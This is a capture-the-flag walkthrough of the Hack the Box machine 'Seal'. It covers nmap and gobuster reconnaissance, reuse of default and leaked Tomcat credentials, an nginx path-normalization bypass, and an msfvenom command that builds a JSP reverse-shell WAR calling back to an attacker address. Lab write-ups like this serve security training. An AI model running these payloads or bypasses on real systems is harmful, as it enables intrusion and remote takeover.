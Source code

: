 # Hack the Box - Seal

```CSS
Machine IP: 10.10.10.250 - Linux
Difficulty: Medium
Category: OSCP Preparation
```

# Reconnaissance
  - Scan for open TCP ports on target machine.
  - Perform service and version detection of open ports.

## Port Scan (TCP)
```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.250 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.250
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
443/tcp  open  https
8080/tcp open  http-proxy
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/10%OT=22%CT=1%CU=31966%PV=Y%DS=2%DC=I%G=Y%TM=645BC96
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST1
OS:1NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.26 seconds
```

## Service and Version Detection
```CSS
▶ nmap -sC -sV -p 22,43,8080 10.10.10.250 -oN services.nmap

Nmap scan report for 10.10.10.250                                                    
Host is up (0.17s latency).                                                          
                                                                                     
PORT     STATE  SERVICE    VERSION                                                   
22/tcp   open   ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                       
|   3072 4b894739673d07315e3f4c27411ff967 (RSA)                                      
|   256 04a74f399565c5b08dd5492ed8440036 (ECDSA)                          
|_  256 b45e8393c54249de7125927123b18554 (ED25519)                                   
43/tcp   closed whois                                                                
8080/tcp open   http-proxy                                                           
|_http-title: Site doesn't have a title (text/html;charset=utf-8).                   
| http-auth:                                                                         
| HTTP/1.1 401 Unauthorized\x0D                                                      
|_  Server returned status 401 but no WWW-Authenticate header.                       
| fingerprint-strings:
|   FourOhFourRequest:                                                               
|     HTTP/1.1 401 Unauthorized
|     Date: Wed, 10 May 2023 16:45:21 GMT                                                                                                                                 
|     Set-Cookie: JSESSIONID=node04mlz2fwh9s4j119zpsysuahz32.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   GetRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Wed, 10 May 2023 16:45:19 GMT
|     Set-Cookie: JSESSIONID=node01rozln8ivln9dyfyvnqefnxwz0.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Wed, 10 May 2023 16:45:20 GMT
|     Set-Cookie: JSESSIONID=node07vji2je08bptb0xv5r688l1m1.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Allow: GET,HEAD,POST,OPTIONS
|     Content-Length: 0
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version                                                                                                                                        
|     Content-Type: text/html;charset=iso-8859-1                                                                                                                          
|     Content-Length: 58                                                                                                                                                  
|     Connection: close                                                                                                                                                   
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   Socks4: 
|     HTTP/1.1 400 Illegal character CNTL=0x4
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x4</pre>
|   Socks5: 
|     HTTP/1.1 400 Illegal character CNTL=0x5
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x5</pre>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service
 :
SF-Port8080-TCP:V=7.93%I=7%D=5/10%Time=645BCA37%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,F4,"HTTP/1\.1\x20401\x20Unauthorized\r\nDate:\x20Wed,\x2010\x2
SF:0May\x202023\x2016:45:19\x20GMT\r\nSet-Cookie:\x20JSESSIONID=node01rozl
SF:n8ivln9dyfyvnqefnxwz0\.node0;\x20Path=/;\x20HttpOnly\r\nExpires:\x20Thu
SF:,\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nContent-Type:\x20text/html
SF:;charset=utf-8\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,107,"HTT
SF:P/1\.1\x20200\x20OK\r\nDate:\x20Wed,\x2010\x20May\x202023\x2016:45:20\x
SF:20GMT\r\nSet-Cookie:\x20JSESSIONID=node07vji2je08bptb0xv5r688l1m1\.node
SF:0;\x20Path=/;\x20HttpOnly\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x200
SF:0:00:00\x20GMT\r\nContent-Type:\x20text/html;charset=utf-8\r\nAllow:\x2
SF:0GET,HEAD,POST,OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,
SF:AD,"HTTP/1\.1\x20505\x20Unknown\x20Version\r\nContent-Type:\x20text/htm
SF:l;charset=iso-8859-1\r\nContent-Length:\x2058\r\nConnection:\x20close\r
SF:\n\r\n<h1>Bad\x20Message\x20505</h1><pre>reason:\x20Unknown\x20Version<
SF:/pre>")%r(FourOhFourRequest,F4,"HTTP/1\.1\x20401\x20Unauthorized\r\nDat
SF:e:\x20Wed,\x2010\x20May\x202023\x2016:45:21\x20GMT\r\nSet-Cookie:\x20JS
SF:ESSIONID=node04mlz2fwh9s4j119zpsysuahz32\.node0;\x20Path=/;\x20HttpOnly
SF:\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nContent
SF:-Type:\x20text/html;charset=utf-8\r\nContent-Length:\x200\r\n\r\n")%r(S
SF:ocks5,C3,"HTTP/1\.1\x20400\x20Illegal\x20character\x20CNTL=0x5\r\nConte
SF:nt-Type:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2069\r\nCo
SF:nnection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x2
SF:0Illegal\x20character\x20CNTL=0x5</pre>")%r(Socks4,C3,"HTTP/1\.1\x20400
SF:\x20Illegal\x20character\x20CNTL=0x4\r\nContent-Type:\x20text/html;char
SF:set=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n
SF:<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20C
SF:NTL=0x4</pre>")%r(RPCCheck,C7,"HTTP/1\.1\x20400\x20Illegal\x20character
SF:\x20OTEXT=0x80\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nCont
SF:ent-Length:\x2071\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x20
SF:400</h1><pre>reason:\x20Illegal\x20character\x20OTEXT=0x80</pre>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.80 seconds
```

---

# Enumeration
## Port 22 - SSH
  - The OpenSSH version that is running is not associated with any critical vulnerabilities, so it’s unlikely to gain initial access through this port, unless some valid credentials are found.

## Port 80 HTTP
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4ff70451-a9c1-4926-ae42-8bc7911217b0)

## Port 8080 HTTP Proxy
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/67431678-77dc-4620-80e9-211c14b6ce97)

---

# Content Discovery
  - Brute-force common directories and files.
```CSS
▶ gobuster dir --url https://10.10.10.250 --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --threads 25 --no-tls-validation
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/79031ee3-0750-4358-9168-c143f1af023d)

```CSS
▶ gobuster dir --url https://10.10.10.250/admin --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --threads 25 --no-tls-validation
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/a544a2ee-1518-480a-aa86-58c46c4780b0)

```CSS
▶ gobuster dir --url https://10.10.10.250/host-manager --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --threads 25 --no-tls-validation
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/76aff29e-a205-4b61-a672-4d3a4e38ad50)

```CSS
▶ gobuster dir --url https://10.10.10.250/manager --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --threads 25 --no-tls-validation
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/afd4b4d6-d29a-495d-bc6f-734ae67e3d2e)

---

# Git Bucket
  - Logging in with Git Bucket default credentials failed.
  - Git Bucket default credentials: `root:root`
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ceaddd26-18cb-4181-a557-fb557966d987)

  - Register a new account on Git Bucket.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/3291eb50-58eb-4360-abbb-95612af30e28)

  - Login with the account credentials.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/3299e3ed-1b97-49ff-a439-2cc01bdac7b8)

  - Read permission on two repositories. The infra repository reveals ansible templates to configure tomcat.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4bdb75a0-c92e-4bf3-bd5b-1a72c5b9a1d7)

  - Developer Comments.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/a7dc4650-7d37-42ea-a77c-530f4cd55c0f)

  - Tomcat Credentials.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/621c388b-8930-4405-a3f9-16617938e594)
Credentials: `tomacat:42MrHBf*z8{Z%`

## Nginx Path Normalization

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/2e3a3cc4-9461-4747-9b1d-7fe2669ab38e)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/82189bdc-339e-46c6-9bcf-0f2fdc4fec29)

```CSS
▶ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=31337 -f war > shell.war
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/eb471ef1-f23b-4b56-a8fc-424a06a194f9)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/7d47d7d9-fe6e-4123-8817-0a2b81465e48)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/9caf8966-f200-4f8f-bedf-0203debb43fe)

  - Bypassing 403 forbidden.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/6fbb10f9-5126-44ee-a20c-5b36595068bc)
